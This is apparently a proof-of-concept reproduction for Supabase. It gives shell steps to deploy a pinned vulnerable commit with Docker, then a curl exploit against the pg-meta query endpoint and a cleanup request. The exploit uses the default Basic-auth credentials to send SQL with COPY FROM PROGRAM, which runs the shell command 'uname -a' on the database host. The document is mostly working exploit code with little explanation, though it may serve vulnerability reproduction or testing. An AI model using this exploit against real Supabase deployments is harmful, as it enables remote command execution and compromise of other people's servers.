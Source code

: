 # Start Vulnerable instance
```bash
git clone https://github.com/supabase/supabase
pushd supabase
git checkout d83ef08ea1aa661ead1af970a094c512319863f8
popd
mkdir supabase-project
cp -rf supabase/docker/* supabase-project
cp supabase/docker/.env.example supabase-project/.env
cd supabase-project
docker compose pull
docker compose up 
```

# Access the exposed UI
Open your browser and navigate to `http://localhost:3000` to access the Supabase UI.
# Use the following command to run the exploit
```bash
curl 'http://127.0.0.1:8000/api/platform/pg-meta/default/query?key=' \
  -X POST \
  -H 'content-type: application/json' \
  -H 'x-connection-encrypted: ' \
  -H 'Authorization: Basic c3VwYWJhc2U6dGhpc19wYXNzd29yZF9pc19pbnNlY3VyZV9hbmRfc2hvdWxkX2JlX3VwZGF0ZWQ=' \
  --data-raw $'{"query":"CREATE TABLE filelist (filename text);\\nCOPY filelist FROM PROGRAM \'uname -a\';\\nSELECT * FROM filelist;","disable_statement_timeout":true}'

# cleanup
curl 'http://127.0.0.1:8000/api/platform/pg-meta/default/query?key=' \
  -X POST \
  -H 'content-type: application/json' \
  -H 'x-connection-encrypted: ' \
  -H 'Authorization: Basic c3VwYWJhc2U6dGhpc19wYXNzd29yZF9pc19pbnNlY3VyZV9hbmRfc2hvdWxkX2JlX3VwZGF0ZWQ=' \
  --data-raw $'{"query":"drop table filelist","disable_statement_timeout":true}'
```